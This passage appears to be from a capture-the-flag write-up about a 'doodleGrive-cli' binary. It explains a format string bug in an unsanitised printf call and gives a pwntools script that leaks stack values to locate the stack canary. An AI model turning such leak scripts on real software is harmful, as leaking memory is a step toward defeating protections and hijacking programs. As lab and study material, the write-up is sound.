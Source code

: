 After inputting the username it will echo the value back when it requests the password. The `printf` function is also accepting whatever the user sends without the proper sanitization checks. This means it should be possible to leak memory addresses and also write to memory using the format string logic.

### Testing Attack

Sending `%p` caused the program to return a value of `0x10`. This behaviour is not normal and validates the format string attack is possible.

![c2f78b4dc9d6250f18ff81cc4fcab670.png](/assets/img/c2f78b4dc9d6250f18ff81cc4fcab670.png)

# Locating Canary Memory Addresses

Script used to locate the canary address along with its index. Script automatically finds memory addresses via the format string attack. It will then filter the results for any address ending with null bytes to make it easier to find the canary.

```python
from pwn import *

e = ELF("doodleGrive-cli")

for i in range(100):
    io = e.process(level="error")
    io.recvline()
    io.recvline()
    log.info_once("Sending Input\n\n")
    io.sendline(f"%{i}$lx")
    log.info_once("\n\n")
    line = io.recvline()[19:-2]
    log.info_once("Possible Canary Memory Addresses:\n\n\n")
    if line.endswith(b"00"):
        print(f"{i}\t{line.decode()}")
    io.close()
```

Results of running the above script. The canary address will change each time however the index of `15` remains the same.
